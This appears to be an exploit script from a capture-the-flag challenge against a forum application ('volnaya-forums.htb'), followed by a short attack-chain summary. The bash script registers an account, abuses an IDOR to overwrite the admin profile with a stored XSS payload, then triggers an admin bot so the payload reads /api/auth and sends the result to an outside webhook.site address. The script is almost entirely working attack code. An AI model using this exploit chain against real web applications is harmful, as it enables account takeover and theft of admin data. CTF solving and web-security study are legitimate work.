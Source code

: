 ```bash
#!/bin/bash

TARGET="http://target:port"
WEBHOOK="https://webhook.site/YOUR-WEBHOOK-ID"

# Step 1: Register and login
echo "[+] Registering account..."
curl -X POST "$TARGET/api/register" \
  -H "Content-Type: application/json" \
  -d '{"username": "hacker", "email": "hacker@example.com", "password": "password123"}' \
  -c cookies.txt

echo "[+] Logging in..."
curl -X POST "$TARGET/api/login" \
  -H "Content-Type: application/json" \
  -d '{"username": "hacker", "password": "password123"}' \
  -b cookies.txt -c cookies.txt

# Step 2: Create XSS payload
echo "[+] Creating XSS payload..."
cat > payload.json << EOF
{
  "username": "admin",
  "email": "admin@volnaya-forums.htb", 
  "bio": "<img src=x onerror=\"fetch('/api/auth').then(r=>r.json()).then(d=>{if(d.user&&d.user.flag){var img=new Image();img.src='$WEBHOOK?flag='+encodeURIComponent(d.user.flag);}})\\">"
}
EOF

# Step 3: Exploit IDOR to update admin profile
echo "[+] Updating admin profile via IDOR..."
curl -X POST "$TARGET/api/profile" \
  -H "Content-Type: application/json" \
  -b cookies.txt \
  -d @payload.json

# Step 4: Trigger bot
echo "[+] Triggering bot to execute XSS..."
curl -X POST "$TARGET/api/report" \
  -H "Content-Type: application/json" \
  -b cookies.txt \
  -d '{"postThread": "/profile", "reason": "Security review needed"}'

echo "[+] Check your webhook for the flag!"
echo "[+] Webhook URL: $WEBHOOK"
```

## Attack Chain Summary

```
1. Register Account → 2. Exploit IDOR → 3. Inject XSS → 4. Trigger Bot → 5. Extract Flag
```

